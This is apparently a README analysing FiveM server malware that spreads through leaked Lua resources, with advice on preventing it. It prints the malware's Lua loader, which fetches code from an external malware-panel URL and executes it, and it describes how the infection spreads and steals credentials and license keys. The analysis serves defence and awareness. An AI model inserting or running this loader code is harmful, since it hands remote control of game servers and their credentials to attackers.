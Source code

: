 This is a specific study into a pay-hack providers methodology.
Credit goes to the specific individuals which devoted a lot of time to discover this growing problem on FiveM, their identities are redacted.

# Analysis
Most FiveM malware is formed around Remote Execution/Administration Tool (RAT). 4 lines of Lua code are written into resources (many of them obfuscate the code) which will download remote code from the external servers. We've found many leaked resources are infected with this type of malware. This repository will talk more about how it works works.

# How it works
It works by individuals releasing infected code/resources to the FiveM public. Server owners/developers take the code (that they don't know is infected) and install it on their servers. Once the resource is installed and ran it will inject its code into other previously clean resources.

The initial infected code boils down to the following:

```Lua
PerformHttpRequest('https://malware-panel.io/_i/i?to=UNIQUECODE', function (e, d)
	local s = assert(load(d))
	if (d == nil) then return end 
	s() 
end)
```

The Unique Code in the URL request is the malware user that now has control of your server. Once this code is run it downloads the remote code and runs it on line 4 as a function.

This is the basis on how most malware works. It proceeds to download several more requests and will continue until it injects more pre-existing resources.

After the code is run, it will upload some javascript and override existing files within the system builders directory. 

`resources\[system]\[builders]` 

The code will start propagating itself within all of your resources and files within the FiveM server installation to make it difficult to remove.

At this stage, its armageddon and all files within the server are compromised meaning files can be downloaded, uploaded, edited and viewed, including but not limited to just the server.cfg, sql credentials or even steal your cfx license keys. They’re also able to run remote code on the server which leads to the last step. The MalScanner batch file in this repository aims to show you exactly where the infected code is.


**Make sure you do not run your FiveM server as ROOT (Linux) or Administrator (Windows)**



# Other things you can do to prevent being attacked by malware

Consider adding the [Warden](https://discord.com/invite/jeFeDRasfs) to your discord server. Warden is a great resource that can help remove cheaters and leakers (people who participate in sharing leaked paid resources) from your community or support hack products like Cipher. 

Make sure to install the latest updates of whatever framework you are using for 

[ESX](https://github.com/esx-framework/esx-legacy) | [ESX Discord](https://discord.esx-framework.org)

[QBCore](https://github.com/qbcore-framework/qb-core) | [QBCore Discord](https://discord.gg/qbcore) 

Consider investing in a good anticheat for your server like [Phoenix Anticheat](https://discord.com/invite/pac) or [FiveEye](https://dsc.gg/FiveEye) or any other anti-cheat that you feel comfortable using.

Buy resources from only reputable places that you feel comfortable purchasing from either Tebex listed stores or from places like [Modit](https://modit.store/), if you're unsure about a store, perhaps ask for guidance on the warden discord. 

Be extremely sketchy on code you get that is encrypted or downloaded from shady sources.

Lastly, the most important thing… **DON'T USE LEAKED RESOURCES!**
